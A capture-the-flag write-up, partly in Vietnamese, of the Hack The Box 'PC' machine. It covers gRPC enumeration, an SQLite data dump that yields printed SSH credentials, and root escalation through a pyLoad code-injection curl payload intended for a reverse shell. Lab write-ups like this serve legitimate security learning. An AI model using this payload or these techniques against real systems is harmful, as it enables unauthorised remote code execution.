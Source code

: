 ```yaml
---
title: PC Hack The Box 
date: 2023-06-25 22:50:30 +/-TTTT
categories: [Hack The Box, PC]
tags: [PC HTB] 

image:
  path: /assets/img/htb/pc/logo.jpg
  # alt: PC HTB
---
```


## Work Flow
![]( /assets/img/htb/pc/workflow.png)

## Enumeration
Recon pc machine with nmap scan
![](/assets/img/htb/pc/nmap.png)

- Search service for port 50051 -> gRPC service
+ Install grpcurl and add grpcurl to env
![](/assets/img/htb/pc/insstall_grpcurl.png)
![](/assets/img/htb/pc/addevn.png)

## Exploit
### Use commandline
- Thực hiện tạo người dùng và thu thập thêm thông tin (trường hợp lấy thông tin bằng token bị fail, thực hiện login lại để kiểm tra user đã bị xóa chưa, nếu user đã bị xóa tạo lại tài khoản mới)
![](/assets/img/htb/pc/account.png)

- Thực hiện truy vấn dữ liệu sqlite
![](/assets/img/htb/pc/query1.png) 
![](/assets/img/htb/pc/query2.png) 
![](/assets/img/htb/pc/query3.png) 

### Hoặc cũng có thể sử dụng grpcui để có giao diện 
![](/assets/img/htb/pc/ui.png) 
![](/assets/img/htb/pc/install_ui.png) 
- Start grpcui và tiếp tục khai thác
```shell
grpcui -plaintext IP_machine:50051
```
![](/assets/img/htb/pc/start1.png)
![](/assets/img/htb/pc/start2.png)

-Register, login and exploit with grpcui
![](/assets/img/htb/pc/1.png)
![](/assets/img/htb/pc/2.png)
![](/assets/img/htb/pc/3.png)
- Sử dụng burpsuite để dễ xem các thông tin request và reponse
![](/assets/img/htb/pc/4.png)
![](/assets/img/htb/pc/5.png)
![](/assets/img/htb/pc/6.png)

-> Sau khi recon và dump data, ta có được thông tin account sau/HereIsYourPassWord1431 

Sử dụng thông tin thu thập được thực hiện ssh vào hệ thống
![](/assets/img/htb/pc/user.png)

## Escalation
- Download và chạy linpeas
![](/assets/img/htb/pc/linpeas.png)
![](/assets/img/htb/pc/service.png)
- Với các port đang mở thực hiện ssh forwarding port để truy cập trên máy local
![](/assets/img/htb/pc/ssh_forward.png)
![](/assets/img/htb/pc/web_root.png)
- Thực hiện tìm kiếm exploit pyload (https://huntr.dev/bounties/3fd606f7-83e1-4265-b083-2e1889a05e65/)
![](/assets/img/htb/pc/search.png)
- Thực hiện thay đổi payload trong package để revershell
```shell
curl -i -s -k -X $'POST' -H $'Host: 127.0.0.1:8000' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 184' --data-binary $'package=xxx&crypted=AAAA&jk=%70%79%69%6d%70%6f%72%74%20%6f%73%3b%6f%73%2e%73%79%73%74%65%6d%28%22%74%6f%75%63%68%20%2f%74%6d%70%2f%70%77%6e%64%22%29;f=function%20f2(){};&passwords=aaaa' $'http://127.0.0.1:8000/flash/addcrypted2'
```
![](/assets/img/htb/pc/burp.png)
- Mở port lắng nghe trước khi chạy payload revershell 
![](/assets/img/htb/pc/nc.png)









